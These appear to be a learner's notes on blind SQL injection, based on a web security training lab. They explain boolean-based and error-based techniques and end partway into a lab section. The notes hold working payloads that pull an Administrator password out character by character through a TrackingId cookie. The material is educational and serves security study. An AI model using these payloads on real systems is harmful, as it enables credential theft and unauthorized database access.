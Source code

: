 To understand how this exploit works, suppose that two requests are sent containing the following TrackingId cookie values in turn: 
```
…xyz' AND '1'='1
…xyz' AND '1'='2
```
- The first of these values causes the query to return results, because the injected 'AND '1'='1' condition is true. As a result, the "Welcome back" message is displayed.
- The second value causes the query to not return any results, because the injected condition is false. The "Welcome back" message is not displayed.

__This allows us to determine the answer to any single injected condition, and extract data one piece at a time.__

For example, suppose there is a table called Users with the columns Username and Password, and a user called Administrator. You can determine the password for this user by sending a series of inputs to test the password one character at a time. 
```
...xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```
This returns the "Welcome back" message, indicating that the injected condition is true, and so the first character of the password is greater than m.

Eventually we'll run something like:
```
' AND (SELECT substring(password,1,1) FROM users WHERE username = 'Administrator') = 'a'--'
```

__We can continue this process to systematically determine the full password for the Administrator user.__ 

## Exploiting blind SQL injection by triggering conditional errors
It's often possible to induce the application to return a different response depending on whether a SQL error occurs. You can modify the query so that it causes a database error only if the condition is true. Very often, an unhandled error thrown by the database causes some difference in the application's response, such as an error message

To see how this works, suppose that two requests are sent containing the following TrackingId cookie values in turn: 
```
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a -- 
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```
If the error causes a difference in the application's HTTP response, you can use this to determine whether the injected condition is true.

Using this technique, you can retrieve data by testing one character at a time: 
```
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```

### Example of LAB: Blind SQL injection with conditional errors
- First figure out what kind of db we're dealing with
Missed this step in this lab

